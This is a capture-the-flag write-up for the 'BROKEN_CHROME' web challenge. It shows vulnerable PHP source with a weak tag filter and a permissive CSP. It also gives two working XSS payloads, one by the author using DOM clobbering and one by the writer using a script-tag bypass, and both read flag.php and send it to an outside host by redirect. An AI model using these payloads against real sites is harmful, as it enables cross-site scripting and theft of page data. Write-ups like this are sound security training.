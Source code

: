 # BROKEN_CHROME

## Description:

read flag.php

http://34.87.80.48:31338/?view-source

http://34.87.177.44:31338/?view-source

Note: server is running on 80 port in local.

flag format: ijctf{}

Author: sqrtrev

```
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    exit();
}

header("Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'");
$dom = $_GET['inject'];
if(preg_match("/meta|on|src|<script>|<\/script>/im",$dom))
        exit("No Hack");
?>
<html>
<?=$dom ?>
<script>
window.TASKS = window.TASKS || {
        proper: "Destination",
        dest: "https://vuln.live"
}
<?php
if(isset($_GET['ok']))
    echo "location.href = window.TASKS.dest;";
?>
</script>
<a href="check.php">Bug Report</a>
</html>
```

CSP: `default-src 'self' 'unsafe-inline' 'unsafe-eval'`

check: `meta, on, src, <script>, </script>` is in `$_GET['inject']`

The Author's Intended solution was DOM clobbering.

But, It's my bad. I filtered `<script>`. I must ban `<script`.

Payload of the Author:

http://34.87.80.48:31338/check.php?report=http://localhost/?inject=%3Ca%20id=TASKS%3E%3Ca%20id=TASKS%20name=dest%20href=%22javascript:a=`var%20rawFile=new%20XMLHttpRequest();var%20flag;rawFile.open(%27GET%27,%20%27http://localhost/flag.php%27,%20false);rawFile.o`%2b`nreadystatechange=functio`%2b`n(){if(rawFile.readyState===4)flag=rawFile.respo`%2b`nseText;}\nrawFile.send(null);locatio`%2b`n.href=%27http://vuln.live:31338/?=%27%2bflag`;eval(a)%22%3E%26ok

## My solution

Send to `check.php` the  following payload:

```
http://localhost/?inject=<script%20bad="a">var%20x%20=%20new%20XMLHttpRequest();x.open("GET","/flag.php",false);x.send();window.TASKS%20=%20{%20dest:%20"http://empty.jack.su/?flag="%2bbtoa(x["respo"%2b"nseText"])};//&ok
```

The working script:
```js
<script bad="a">
var x = new XMLHttpRequest();
x.open("GET","/flag.php",false).send();
window.TASKS={dest:"http://empty.jack.su/?flag="+btoa(x["respo"+"nseText"])};//
```

So, the script got the flag and sent it via redirect, to bypass CSP restrictions.